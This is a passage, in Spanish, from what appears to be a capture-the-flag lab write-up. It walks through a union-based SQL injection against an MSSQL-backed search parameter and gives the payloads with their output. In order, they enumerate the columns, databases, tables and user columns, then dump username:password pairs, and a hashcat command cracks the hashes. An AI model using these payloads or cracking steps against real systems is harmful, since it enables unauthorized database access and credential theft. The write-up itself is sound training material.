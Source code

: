 Enumeramos las columnas te tiene la `query`

```python
q=test'union+select+1,2,3,4,5,6--+-
```

- Enumeración de las bases de datos existentes:

```python
q=abcd'union+select+1,name,3,4,5,6+from+master.dbo.sysdatabases--+-
master
model
msdb
streamio
streamio_backup
tempdb
```

- Enumeración de las tablas :

```python

q=abcd'union+select+1,table_name,3,4,5,6+from+streamio.information_schema.tables--+-
movies
users
```

- Enumeración de las columnas:

```python
q=abcd'union+select+1,column_name,3,4,5,6+from+streamio.information_schema.columns+where+table_name='users'--+-
id
is_staff
password
username
```

Luego de enumerar las columnas de la tabla `users` lo que haremos será obtener los datos que están almacenadas en ella.

```python
q=abcd'union+select+1,concat(username,':',password),3,4,5,6+from+users;--+-
```
### Cracking con hashcat

Luego de obtener las credenciales almacenadas en la base de datos lo que haremos será crackerlas con `hashcat` 

```python
>.\hashcat.exe -m 0 --user  -o D:\Herramientas\Programas\credentials.txt D:\Herramientas\Programas\rockyou.txt
```
